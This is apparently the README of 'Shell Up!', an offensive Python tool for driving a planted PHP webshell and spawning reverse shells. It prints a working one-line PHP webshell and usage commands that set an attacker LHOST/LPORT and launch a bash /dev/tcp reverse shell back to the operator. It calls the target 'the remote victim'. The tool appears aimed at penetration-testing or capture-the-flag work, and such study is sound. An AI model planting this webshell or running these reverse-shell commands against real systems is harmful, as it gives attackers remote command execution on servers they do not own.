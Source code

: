 # Shell Up!
A much more lightweight way to connect to a webshell without having to use Burp Suite.
I wrote this not out of necessity, but because I was always considering doing it one day
and given the current COVID-19 climate I finally said screw it and wrote this. In the event
that I obtain code execution on a server and am able to write a quick oneliner webshell that
looks something like this:

`<?php system($_GET['cmd']); ?>`

You can run this script and issue commands as needed. Typically all that is necessary is a
callback via a reverse shell, so this script takes care of all of the overhead necessary.

## Usage

`shellup.py http://example.com/pwned.php`

This will connect to the endpoint and run an immediate check to determine code execution,
assuming your invoke word is "cmd". If it isn't, you can modify those settings in the REPL:

`shellset invokeword c`

Don't forget to set your LHOST and LPORT properties for reverse shells:

`shellset lhost 10.10.14.2`

`shellset lport 9001`

Something not working right? Run it through a proxy like burpsuite or mitmproxy and find out
what's going on:

`shellset proxy http://localhost:8080`

`whoami`

Or, you could just set these flags up beforehand at the command line:

`shellup.py http://example.com/pwned.php -lh 10.10.14.2 -lp 9001 -i agr0 -p http://localhost:8080`

Once you have your settings configured properly, the "shellup" function allows you to start up a
reverse shell in many different ways. All you need to do is type something like:

`shellup bash`

And it will connect back to you using the /dev/tcp/ method that comes with the bash shell.
Several reverse callback methods have been preloaded into this script, but when all else fails
you can simply issue arbitrary commands via the included REPL. Just type anything and it sends
it to the remote victim, all properly URL encoded!

Hack The Planet!
